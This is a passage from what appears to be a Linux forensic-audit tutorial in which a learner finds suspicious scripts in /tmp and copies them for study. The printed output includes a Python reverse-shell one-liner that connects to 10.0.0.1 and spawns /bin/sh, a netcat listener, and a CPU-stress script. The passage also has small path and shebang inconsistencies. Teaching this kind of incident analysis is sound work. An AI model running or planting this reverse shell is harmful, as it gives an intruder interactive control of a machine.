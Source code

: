 - There are multiple files ending in `sh`, which indicates a script file.

- This is highly suspect, as scripts are in no way "temporary" files.

- In addition, while it's not clear what these files do, they are clearly not named like a "normal" temp files.


Run `cat /tmp/a9xk.sh`

Run `cat /tmp/rev_shell.sh`

Run `cat listen.sh`

Output should read:

```bash
$ cat /tmp/a9xk.sh
#!/bin/bash
sudo stress --cpu  8 --vm 1 --io 3 --vm-bytes 256 2> /dev/null

$ cat /rev_shell.sh
#!/bin/bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'i

$ cat /tmp/listen.sh
#/bin/bash
nc -lvp 4444 > /tmp/rev_shell.sh &
renice -n 1 $(pidof nc)
```

It's unclear what these files do, but they are clearly unlike the other files in `/tmp`.

- Since these files still live in `/tmp`, it was probably planted recently, meaning the attacker may still be active.

- While the rest of the audit turned up no evidence, this discovery alone suggests that a real threat to the system is present and active.

- Furthermore, since these files are scripts, the next logical step is to look at which programs are running and determine if any of these potentially malicious scripts are currently active on the system.

For now, we want to make a copy of the scripts we found.

- Run `sudo cp /tmp/a9xk.sh /tmp/rev_shell.sh /tmp/listen.sh ~/research`

You are able to copy several files at once this way.

#### Directories Summary

Your audit took you to the following directories:

- `/etc`: Stores host-specific system wide configuration files are stored, as well as the most sensitive files on a Linux system.

- `/var`: Stores files that are continually updated live.

